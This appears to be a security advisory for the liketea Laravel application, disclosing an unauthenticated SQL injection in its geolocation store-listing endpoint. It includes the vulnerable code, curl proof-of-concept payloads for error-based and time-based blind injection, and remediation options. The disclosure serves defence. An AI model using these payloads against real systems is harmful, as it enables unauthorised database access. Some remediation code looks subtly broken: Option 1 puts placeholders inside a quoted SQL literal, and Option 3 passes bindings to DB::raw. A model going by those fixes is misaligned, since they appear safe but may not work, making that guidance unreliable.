 # [liketea](https://github.com/cameasy/liketea) SQL Injection

### SQL Injection in Geolocation Query [CRITICAL]

#### Description

A critical SQL injection vulnerability exists in the store listing API endpoint that allows unauthenticated attackers to execute arbitrary SQL commands. User-supplied latitude and longitude parameters are directly concatenated into a raw SQL query without sanitization or parameterization.

#### Affected Component

- **File**: `laravel/app/Http/Controllers/Front/StoreController.php`
- **Lines**: 42-46, 73-80
- **Endpoint**: `POST /api/v1/front/store/list`
- **Authentication**: Not Required

#### Vulnerable Code

```php
public function list(Request $request)
{
    $lat = $request->input('lat') ?: '31.182021';
    $lng = $request->input('lng') ?: '121.425562';

    $model = Store::where('is_open', 1)
        ->selectRaw("*, ST_Distance(
            ST_GeomFromText('POINT($lng $lat)'),  // ❌ UNSAFE
            ST_GeomFromText(CONCAT('POINT(', stores.lng, ' ', stores.lat, ')'))
        ) as distance")
        ->orderBy('distance', 'asc')
        ->get();
}
```

#### Proof of Concept

**1. Database Version Extraction**

```bash
curl -X POST http://localhost:8000/api/v1/front/store/list \
  -H "Content-Type: application/json" \
  -d '{"lat":"1","lng":"1'\''))  ,0,0,0,(SELECT version()))#"}'

# Response exposes MySQL version in error message
```

**2. Time-Based Blind SQL Injection**

```bash
# Causes 5-second delay, confirming SQL injection
time curl -X POST http://localhost:8000/api/v1/front/store/list \
  -H "Content-Type: application/json" \
  -d '{"lat":"1","lng":"1'\'')) AND SLEEP(5))#"}'

# Expected: ~5 second delay
```

<img width="858" height="371" alt="image" src="https://github.com/user-attachments/assets/b2d7d987-6eff-4daf-9ce7-aa213a6c0acc" />

<img width="858" height="371" alt="image" src="https://github.com/user-attachments/assets/a20122d0-a444-4c3c-af8d-3e5f4e2a8951" />

<img width="858" height="371" alt="image" src="https://github.com/user-attachments/assets/3fe2f3a2-6cb9-433f-84c9-27b752d6fa1f" />


#### Remediation

**Option 1: Input Validation (Recommended)**

```php
public function list(Request $request)
{
    // Validate and sanitize inputs
    $lat = floatval($request->input('lat', '31.182021'));
    $lng = floatval($request->input('lng', '121.425562'));

    // Additional bounds checking
    if ($lat < -90 || $lat > 90 || $lng < -180 || $lng > 180) {
        return response()->json(['error' => 'Invalid coordinates'], 400);
    }

    $model = Store::where('is_open', 1)
        ->selectRaw("*, ST_Distance(
            ST_GeomFromText('POINT(? ?)'),
            ST_GeomFromText(CONCAT('POINT(', stores.lng, ' ', stores.lat, ')'))
        ) as distance", [$lng, $lat])
        ->orderBy('distance', 'asc')
        ->get();
}
```

**Option 2: Query Builder (Best)**

```php
public function list(Request $request)
{
    $validated = $request->validate([
        'lat' => ['required', 'numeric', 'between:-90,90'],
        'lng' => ['required', 'numeric', 'between:-180,180'],
    ]);

    $lat = $validated['lat'];
    $lng = $validated['lng'];

    $model = Store::where('is_open', 1)
        ->selectRaw("*, ST_Distance(
            POINT(?, ?),
            POINT(stores.lng, stores.lat)
        ) as distance", [$lng, $lat])
        ->orderBy('distance', 'asc')
        ->get();
}
```

**Option 3: Abstraction Layer (DRY Principle)**

```php
// app/Services/GeoQueryService.php
class GeoQueryService
{
    public static function calculateDistance(float $lat, float $lng)
    {
        return DB::raw("
            ST_Distance(
                POINT(?, ?),
                POINT(stores.lng, stores.lat)
            )
        ", [$lng, $lat]);
    }
}

// Controller
public function list(Request $request)
{
    $validated = $request->validate([
        'lat' => ['required', 'numeric', 'between:-90,90'],
        'lng' => ['required', 'numeric', 'between:-180,180'],
    ]);

    $model = Store::where('is_open', 1)
        ->select('*')
        ->selectSub(
            GeoQueryService::calculateDistance($validated['lat'], $validated['lng']),
            'distance'
        )
        ->orderBy('distance', 'asc')
        ->get();
}
```
